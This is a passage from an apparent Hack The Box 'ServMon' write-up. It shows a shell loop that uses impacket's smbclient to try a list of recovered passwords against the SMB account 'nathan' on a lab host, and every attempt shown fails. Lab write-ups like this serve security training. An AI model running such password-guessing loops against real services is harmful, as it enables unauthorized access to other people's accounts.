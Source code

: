 ![image](/assets/img/post/htb/servmon/05.png)


## SMB Password Guessing

Since the passwords were found from the `nathan`'s desktop, we can try to bruteforce them against his account. But it did not find the correct password.

```console
$while read i; do echo "[INFO] Password: $i" && smbclient.py servmon/nathan:$i@10.10.10.184; done < pass.txt 

[INFO] Password: 1nsp3ctTh3Way2Mars!
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[INFO] Password: Th3r34r3To0M4nyTrait0r5!
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[INFO] Password: B3WithM30r4ga1n5tMe
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[INFO] Password: L1k3B1gBut7s@W0rk
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[INFO] Password: 0nly7h3y0unGWi11F0l10w
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[INFO] Password: IfH3s4b0Utg0t0H1sH0me
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
[INFO] Password: Gr4etN3w5w17hMySk1Pa5$
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
```
